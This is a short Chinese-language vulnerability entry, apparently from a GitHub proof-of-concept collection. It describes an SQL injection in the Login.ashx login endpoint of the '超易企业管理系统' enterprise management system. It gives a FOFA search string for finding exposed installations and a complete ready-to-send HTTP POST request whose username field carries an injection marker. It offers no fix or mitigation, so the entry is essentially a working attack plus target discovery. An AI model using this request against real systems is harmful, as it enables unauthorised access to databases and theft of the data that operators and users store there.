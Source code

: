 # 超易企业管理系统Login.ashx存在SQL注入漏洞

超易企业管理系统存在SQL注入漏洞，攻击者可获取数据库敏感信息。

## fofa

```yaml
"超易企业管理系统"
```

## poc

```java
POST /ajax/Login.ashx?Date=%271721821198459%27 HTTP/1.1
Host: 
Content-Length: 92
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

username=admin*&password=admin123&loginguid=&logintype=pc
```

